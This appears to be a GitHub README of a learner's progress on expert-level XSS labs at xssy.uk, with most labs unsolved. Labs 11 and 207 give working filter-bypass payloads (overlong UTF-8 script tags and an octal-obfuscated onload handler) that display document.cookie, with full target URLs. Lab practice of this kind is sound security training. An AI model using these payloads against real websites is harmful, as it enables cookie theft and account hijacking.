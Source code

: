 
## Expert Level

### Lab 626: HTML Upload Blocked
- **URL Lab**: https://xssy.uk/lab/626
- **Status**: Not solved yet

---

### Lab 638: Polyglot XSS
- **URL Lab**: https://xssy.uk/lab/638
- **Status**: Not solved yet

---

### Lab 677: Null Byte Injection
- **URL Lab**: https://xssy.uk/lab/677
- **Status**: Not solved yet

---

### Lab 11: Overlong UTF-8 XSS
- **URL Lab**: https://xssy.uk/lab/11
- **Payload**: 
```
%C0%BCscript%C0%BEalert(document.cookie)%C0%BC/script%C0%BE
```
- **Full URL**: 
```
https://7fj3bijv.xssy.uk/target.ftl?name=%C0%BCscript%C0%BEalert(document.cookie)%C0%BC/script%C0%BE
```

---

### Lab 191: Split Payload
- **URL Lab**: https://xssy.uk/lab/191
- **Status**: Not solved yet

---

### Lab 201: HttpOnly Bypass
- **URL Lab**: https://xssy.uk/lab/201
- **Status**: Not solved yet

---

### Lab 207: UPPERCASE
- **URL Lab**: https://xssy.uk/lab/207
- **Reference**: https://hackerone.com/reports/1167034
- **Payload**: 
```html
</p><BoDy oOnLoAnLoAd=[]["\146\151\154\164\145\162"]["\143\157\156\163\164\162\165\143\164\157\162"]("\141\154\145\162\164\50\144\157\143\165\155\145\156\164\056\143\157\157\153\151\145\51")()>
```
- **Full URL**: 
```
https://ez27zilh.xssy.uk/target.ftl?name=%3C/p%3E%3CBoDy%20oOnLoAnLoAd=[]["\146\151\154\164\145\162"]["\143\157\156\163\164\162\165\143\164\157\162"]("\141\154\145\162\164\50\144\157\143\165\155\145\156\164\056\143\157\157\153\151\145\51")()%3E
```
- **Description**: 
  - Step 1: Bypass onload filter => `oOnLoAnLoAd`